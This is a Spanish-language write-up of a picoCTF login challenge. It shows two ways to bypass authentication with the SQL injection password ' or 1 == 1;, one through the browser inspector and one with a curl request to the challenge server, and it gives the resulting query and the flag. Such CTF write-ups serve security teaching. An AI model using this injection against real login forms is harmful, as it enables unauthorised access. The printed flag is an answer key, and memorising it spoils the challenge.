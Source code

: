 ## Descripción 
There is a website running at `https://jupiter.challenges.picoctf.org/problem/33850/` ([link](https://jupiter.challenges.picoctf.org/problem/33850/)) or http://jupiter.challenges.picoctf.org:33850. Do you think you can log us in? Try to see if you can login!

Hint:
1. There doesn't seem to be many ways to interact with this. I wonder if the users are kept in a database?
2. Try to think about how the website verifies your login.
## Solución 1

Con inspector en el navegador

Usamos el inspector para ver como intenta acceder a el login de la página y usa una inyección sql, modificamos el valor del login a "value=1" y nos dice que usemos un password de ' or 1 == 1;'
Lo usamos y nos da la contraseña

```
username: admin
password: ' or 1 == 1;
SQL query: SELECT * FROM users WHERE name='admin' AND password='' or 1 == 1;'

log in 
username: admin
password: ' or 1 == 1;'
login

# Logged in!

Your flag is: picoCTF{s0m3_SQL_f8adf3fb}
```

## Solución 2

Usando la consola linux

Método bastante similar, pero nos logeamos desde la consola utilizando de igual manera el sql injection ' or 1 == 1;' con el siguiente comando 

```
vSalazarZ-picoctf@webshell:~$ curl -s https://jupiter.challenges.picoctf.org/problem/33850/login.php -d "username=admin&password= ' or 1 == 1;&debug=1"
<pre>username: admin
password:  ' or 1 == 1;
SQL query: SELECT * FROM users WHERE name='admin' AND password=' ' or 1 == 1;'
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{s0m3_SQL_f8adf3fb}</p>vSalazarZ-picoctf@webshell:~$

flag: picoCTF{s0m3_SQL_f8adf3fb}
```

## Refrerencias
https://www.w3schools.com/sql/sql_injection.asp